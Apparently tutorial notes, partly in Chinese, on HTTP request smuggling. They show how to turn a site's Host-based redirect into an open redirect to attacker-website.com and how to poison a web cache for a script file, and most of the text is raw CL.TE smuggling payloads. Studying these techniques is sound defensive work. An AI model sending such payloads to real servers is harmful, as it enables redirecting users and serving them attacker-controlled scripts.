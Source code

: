 ### turn an on-site redirect into an open redirect

许多应用程序执行从一个URL到另一个URL的现场重定向，并将hostname从请求的Host头放入重定向URL中。**Apache和IIS web**服务器的默认行为就是一个例子

```http
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

The smuggled request will trigger a redirect to the attacker's website

```http
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

###  perform web cache poisoning

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 59
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /static/include.js HTTP/1.1
Host: vulnerable-website.com
```

lab：
